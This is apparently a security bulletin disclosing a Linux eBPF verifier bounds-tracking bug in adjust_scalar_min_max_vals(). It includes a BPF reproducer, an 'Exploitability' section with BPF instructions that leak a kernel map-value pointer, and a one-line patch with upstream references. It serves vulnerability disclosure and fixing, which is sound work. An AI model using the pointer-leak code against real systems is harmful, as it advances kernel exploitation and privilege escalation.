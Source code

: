 ```yaml
---
layout: post
title: "eBPF verifier bug: mishandling bounds in adjust_scalar_min_max_vals()"
tag: bulletin
---
```


````
-- [ Description

In `verifier.c` there is a lot of code like this to update bounds:
(To be honest, I don't know how these three functions work together XD)

```
    __update_reg_bounds(dst_reg);
    __reg_deduce_bounds(dst_reg);
    __reg_bound_offset(dst_reg);
```

I found a corner case where tnum becomes constant after
__reg_bound_offset(), but bounds are not(min != max).

-- [ Affected Versions

The latest version of Linux.

-- [ Reproducer

```
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_MOV64_IMM(BPF_REG_3, 0),
        BPF_ALU64_IMM(BPF_NEG, BPF_REG_3, 0),
        BPF_ALU64_IMM(BPF_NEG, BPF_REG_3, 0), // R3=scalar()
        BPF_ALU64_IMM(BPF_OR, BPF_REG_3, 32767),
        BPF_JMP_IMM(BPF_JSGE, BPF_REG_3, 0, 1),
        BPF_EXIT_INSN(),
        BPF_JMP_IMM(BPF_JSLE, BPF_REG_3, 0x8000, 1),
        BPF_EXIT_INSN(),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -32767),
        // R3:min=0,max=1;tnum_value=0,tnum_mask=0;
        BPF_EXIT_INSN(),
```

-- [ Exploitability

Pointer leak by turning a PTR_REG into UNKNOWN with adjust_ptr_min_max_vals()

```
        // load oob_map values ptr into reg_0 */
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
        BPF_LD_MAP_FD(BPF_REG_1, map_fd),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
        // check if the returned map value pointer is valid */
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
        BPF_EXIT_INSN(),
        BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),
        BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),
        BPF_MOV64_IMM(BPF_REG_0, 0),

        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_MOV64_IMM(BPF_REG_3, 0),
        BPF_ALU64_IMM(BPF_NEG, BPF_REG_3, 0),
        BPF_ALU64_IMM(BPF_NEG, BPF_REG_3, 0), // R3=scalar()
        BPF_ALU64_IMM(BPF_OR, BPF_REG_3, 32767),
        BPF_JMP_IMM(BPF_JSGE, BPF_REG_3, 0, 1),
        BPF_EXIT_INSN(),
        BPF_JMP_IMM(BPF_JSLE, BPF_REG_3, 0x8000, 1),
        BPF_EXIT_INSN(),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -32767),
        BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_7),
        BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_3, 8),
        BPF_EXIT_INSN(),
```

-- [ Mitigation

In __reg_combine_min_max() the annotate says "Intersecting with the
old var_off might have improved our bounds slightly.", so at the end
of the function it added a call to __update_reg_bounds().

```
/* Regs are known to be equal, so intersect their min/max/var_off */
static void __reg_combine_min_max(struct bpf_reg_state *src_reg,
                  struct bpf_reg_state *dst_reg)
{
    src_reg->umin_value = dst_reg->umin_value = max(src_reg->umin_value,
                            dst_reg->umin_value);
    src_reg->umax_value = dst_reg->umax_value = min(src_reg->umax_value,
                            dst_reg->umax_value);
    src_reg->smin_value = dst_reg->smin_value = max(src_reg->smin_value,
                            dst_reg->smin_value);
    src_reg->smax_value = dst_reg->smax_value = min(src_reg->smax_value,
                            dst_reg->smax_value);
    src_reg->var_off = dst_reg->var_off = tnum_intersect(src_reg->var_off,
                                 dst_reg->var_off);
    /* We might have learned new bounds from the var_off. */
    __update_reg_bounds(src_reg);
    __update_reg_bounds(dst_reg);
    /* We might have learned something about the sign bit. */
    __reg_deduce_bounds(src_reg);
    __reg_deduce_bounds(dst_reg);
    /* We might have learned some bits from the bounds. */
    __reg_bound_offset(src_reg);
    __reg_bound_offset(dst_reg);
    /* Intersecting with the old var_off might have improved our bounds
     * slightly.  e.g. if umax was 0x7f...f and var_off was (0; 0xf...fc),
     * then new var_off is (0; 0x7f...fc) which improves our umax.
     */
    __update_reg_bounds(src_reg);
    __update_reg_bounds(dst_reg);
}
```

As I said before I don't really understand how these three functions
work together, maybe you need to check all the codes where
__reg_bound_offset is called?

In adjust_scalar_min_max_vals(), add a call to __update_reg_bounds()
is enough to mitigate this vulnerability.

```
@@ -8410,6 +8412,7 @@ static int adjust_scalar_min_max_vals(struct
bpf_verifier_env *env,
        __update_reg_bounds(dst_reg);
        __reg_deduce_bounds(dst_reg);
        __reg_bound_offset(dst_reg);
+       __update_reg_bounds(dst_reg);
        return 0;
 }
```

-- [ References
* https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf.git/commit/?id=3844d153a41a
* https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf.git/commit/?id=73c4936f916d
````